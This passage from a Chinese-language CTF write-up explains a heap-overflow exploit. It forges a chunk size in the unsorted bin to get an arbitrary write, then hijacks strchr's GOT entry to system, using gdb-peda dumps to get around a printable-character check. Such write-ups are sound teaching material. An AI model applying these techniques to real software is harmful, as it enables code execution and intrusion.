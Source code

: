 ```
          |     .        |
          |     .        |
          |     .        |
0x1234090 |     0x1234050| userC
          |              |
          |              |
          |              |
          +--------------+
```

`0x1234060` 這個 chunk 位於 unsortbin 裡面，其 size 可以透過 overflow `userC->name` 來更改。如果我們將 size 改成 `0xa1` ( struct `message` 的大小 )，之後在 post message 的時候就可以透過控制 message 的內容來偽造 `userC` 這個 structure，把 `userC->name` 這個 pointer 改掉，之後透過修改 `userC` 的 name 來達到任意寫入。

總結一下如何達到任意寫 :
1. 排出上圖的 heap
2. overflow `userC->name`，將 unsortbin 中的 chunk size 從 `0x21` 改成 `0xa1`
3. 發布一個訊息，讓程式 allocate `0x1234060` 這個 chunk，之後控制訊息內容來偽造 `userC` 這個 structure (位於 `0x1234090`)
4. 將 `userC->name` 這個 pointer 改掉，改成任意 address，之後再透過修改 `userC` 的 name 來達到任意寫

有了任意寫就可以做 GOT hijacking 了。這題可以 hijack 的地方很多，有 `free`, `strcmp`, `strchr`, `atoi`......等等。

看起來似乎很容易，其實沒那麼簡單。前面有提到，如果要成功更改一個 user name，不管是舊 user name 還是新 user name，其第一個字元都必須是 printable 的字元。假設今天我們要 hijack free 的 GOT:
```
gdb-peda$ tel 0x603010
00:0000|  0x603010 --> 0x7eff900f44a0 (<_dl_runtime_resolve>:   sub    rsp,0x38)
01:0008|  0x603018 --> 0x7eff8fd9bd00 (<__GI___libc_free>:      mov    rax,QWORD PTR [rip+0x33b1e1]        # 0x7eff900d6ee8)
02:0016|  0x603020 --> 0x7eff8fda19b0 (<strlen>:        pxor   xmm8,xmm8)
03:0024|  0x603028 --> 0x4007f6 (<__stack_chk_fail@plt+6>:      push   0x2)
04:0032|  0x603030 --> 0x7eff8fd8b100 (<setbuf>:        mov    edx,0x2000)
05:0040|  0x603038 --> 0x7eff8fd9fd40 (<__strchr_sse2>: movd   xmm1,esi)
06:0048|  0x603040 --> 0x7eff8fd3ae50 (<__libc_start_main>:     push   r14)
07:0056|  0x603048 --> 0x7eff8fd87160 (<_IO_fgets>:     push   r12)
```

我們可以看到 free 的 GOT ( `0x603018` )，他存的 address 是 `0x7eff8fd9bd00`。其第一個字元是 `0x00`，不是 printable 的字元，因此在透過 `Change UserName` 更改 `free@got.plt` 的時候會失敗。就算今天 free 的 GOT 所存的 address 其第一個字元是 printable 的字元，但是這題 libc 的 `system` offset 為 `0x46590`，其第一個字元同樣不是 printable 的字元，這會讓程式認為新名字無效並嘗試去 free 掉 user name，導致程式 crash 掉 ( 嘗試去 free 掉一個 GOT entry 的關係 )。

那麼該如何繞過這項檢查呢 ? 個人覺得這邊還蠻有趣的。首先就是有發現到 `stack_chk_fail` 的 GOT 存的內容是 `0x4007f6`。雖然 `0xf6` 並非 printable 的字元，但是第三個字元 `0x40` 卻可以通過 `isprint` 的檢查。因此只要想辦法讓 `0x40` 成為舊 user name 的第一個字元就行了:
```
gdb-peda$ tel 0x60302a
00:0000|  0x60302a --> 0xb100000000000040 <-- printable first character !
01:0008|  0x603032 --> 0xfd4000007eff8fd8 
02:0016|  0x60303a --> 0xae5000007eff8fd9 
03:0024|  0x603042 --> 0x716000007eff8fd3 
04:0032|  0x60304a --> 0x8e0000007eff8fd8 
05:0040|  0x603052 --> 0xd2b000007eff8fe5 
06:0048|  0x60305a --> 0x86600007eff8fd6 
07:0056|  0x603062 --> 0x8e80000000000040
```
我們可以從 `0x60302a` 開始做寫入，前面先塞一些 printable 的字元填滿 `stack_chk_fail` 和 `setbuf` 的 GOT ( 這樣新 user name 的第一個字元也變成 printable 的了 ! )，之後再將 `system` 的 address 塞到 `strchr@got.plt` 裡面，即可成功 hijack `strchr` 的 GOT。
